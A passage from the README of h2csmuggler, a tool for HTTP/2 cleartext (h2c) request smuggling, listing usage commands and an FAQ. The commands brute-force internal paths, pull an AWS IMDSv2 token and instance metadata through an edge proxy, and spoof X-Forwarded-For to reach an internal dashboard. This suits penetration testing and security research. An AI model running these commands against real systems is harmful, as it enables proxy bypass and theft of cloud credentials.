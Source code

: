 3\. Brute-forcing internal endpoints (using HTTP/2 multiplexing), where `dirs.txt` represents a list of paths (e.g., `/api/`, `/admin/`).
```
/h2csmuggler.py -x https://edgeserver -i dirs.txt http://localhost/
```

4\. Exploiting `Host` header SSRF over h2c smuggling (e.g., AWS metadata IMDSv2):

Retrieving the token:
```
./h2csmuggler.py -x https://edgeserver -X PUT -H "X-aws-ec2-metadata-token-ttl-seconds: 21600" http://169.254.169.254/latest/api/token`
```

Transmitting the token:
```
./h2csmuggler.py -x https://edgeserver -H "x-aws-ec2-metadata-token: TOKEN" http://169.254.169.254/latest/meta-data/
```
5\. Spoofing an IP address with the `X-Forwarded-For` header to access an internal dashboard:
```
./h2csmuggler.py -x https://edgeserver -H "X-Forwarded-For: 127.0.0.1" -H "X-Real-IP: 172.16.0.1" http://backend/system/dashboard
```
### FAQ

**Q: Why are there multiple responses from the server?**

A: The first response is the data response to the original upgrade request initiated in HTTP/1.1, per the h2c upgrade protocol. The following responses are from the smuggled request.

**Q: I received a "101 Switching Protocols" but I'm not receiving any data from the remote server.**

A: I observed this behavior in my tests and found that some servers respond with a 101 status even if they do not actually support HTTP/2.

**Q: Is establishing an h2c tunnel always a vulnerability?**

A: No. Consider a TLS-terminating TCP load balancer (e.g., ELB) proxying directly to an h2c-compatible back end. Although you may be able to establish an h2c connection, if there are no access controls being enforced, then there are no access controls to bypass, or privilege gained by initiating this tunnel.

**Q: Why does the smuggled request URI require a scheme? What is it used for?**

A: The HTTP/2 protocol requires a `:scheme` psuedo-header. For our use case, `http` vs. `https` likely doesn't matter. For more details, see [HTTP/2 RFC: Section 8.1.2.3](https://http2.github.io/http2-spec/#rfc.section.8.1.2.3).

**Q: What should I use as the hostname for the back-end server?**

A: It's best to start with the same hostname as the edge server. Next, try experimenting with alternative hostname values.


### Author

Twitter: [@theBumbleSec](https://twitter.com/theBumbleSec)

GitHub: [the-bumble](https://github.com/the-bumble/)
